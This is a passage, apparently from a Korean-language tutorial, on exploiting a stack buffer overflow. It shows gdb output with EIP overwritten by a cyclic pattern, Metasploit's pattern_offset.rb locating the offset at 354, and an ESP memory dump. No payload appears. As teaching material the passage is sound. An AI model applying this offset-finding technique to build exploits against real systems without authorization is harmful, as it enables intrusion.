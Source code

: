 ```bash
[Switching to Thread 0xb7a866c0 (LWP 27442)]
0x41386c41 in ?? ()
(gdb) info registers
eax            0x0	0
ecx            0xbfaf9a5a	-1079010726
edx            0x191	401
ebx            0xb7c49ff4	-1211850764
esp            0xbfaf9bc0	0xbfaf9bc0
ebp            0x376c4136	0x376c4136
esi            0xb7f75ce0	-1208525600
edi            0x0	0
eip            0x41386c41	0x41386c41
eflags         0x10246	[ PF ZF IF RF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```

* **0x41386c41 in ?? ()**이라는 오류 메시지가 나옴
* eip 레지스터 주소는 **0x41386c41**
* 따라서 문자열이 eip를 건드린 것을 알 수 있음

### 3. pattern_offset.rb로 오류가 난 eip 레지스터 offset 알아내기

```bash
root@ming:/usr/share/metasploit-framework/tools/exploit# ./pattern_offset.rb -q 0x41386c41
[*] Exact match at offset 354
```

* pattern_offset.rb: 레지스터를 덮어 씌울 버퍼의 길이를 계산함
* 이게 가능한게 pattern_create.rb로 오버플로를 일으키고 그걸 바탕으로 계산해서 가능
* esp는 스택의 탑을 가리키는 레지스터로 스택 오버플로가 나타나면 확인해야 함

### 4. esp 레지스터 디버깅

```bash
(gdb) x/100cb $esp
0xbfaf9bc0:	108 'l'	57 '9'	65 'A'	109 'm'	48 '0'	65 'A'	109 'm'	49 '1'
0xbfaf9bc8:	65 'A'	109 'm'	50 '2'	65 'A'	109 'm'	51 '3'	65 'A'	109 'm'
0xbfaf9bd0:	52 '4'	65 'A'	109 'm'	53 '5'	65 'A'	109 'm'	54 '6'	65 'A'
0xbfaf9bd8:	109 'm'	55 '7'	65 'A'	109 'm'	56 '8'	65 'A'	109 'm'	57 '9'
0xbfaf9be0:	65 'A'	110 'n'	48 '0'	65 'A'	110 'n'	49 '1'	65 'A'	110 'n'
0xbfaf9be8:	50 '2'	65 'A'	0 '\0'	-73 '�'	39 '\''	0 '\0'	0 '\0'	0 '\0'
0xbfaf9bf0:	0 '\0'	112 'p'	-82 '�'	-73 '�'	0 '\0'	0 '\0'	0 '\0'	0 '\0'
0xbfaf9bf8:	0 '\0'	0 '\0'	0 '\0'	0 '\0'	0 '\0'	0 '\0'	0 '\0'	0 '\0'
0xbfaf9c00:	48 '0'	29 '\035'	5 '\005'	8 '\b'	48 '0'	-3 '�'	4 '\004'	8 '\b'
0xbfaf9c08:	48 '0'	-3 '�'	4 '\004'	8 '\b'	5 '\005'	0 '\0'	0 '\0'	0 '\0'
0xbfaf9c10:	0 '\0'	32 ' '	0 '\0'	0 '\0'	0 '\0'	0 '\0'	0 '\0'	64 '@'
0xbfaf9c18:	1 '\001'	0 '\0'	0 '\0'	0 '\0'	0 '\0'	0 '\0'	0 '\0'	0 '\0'
0xbfaf9c20:	-128 '\200'	51 '3'	-31 '�'	1 '\001'
```
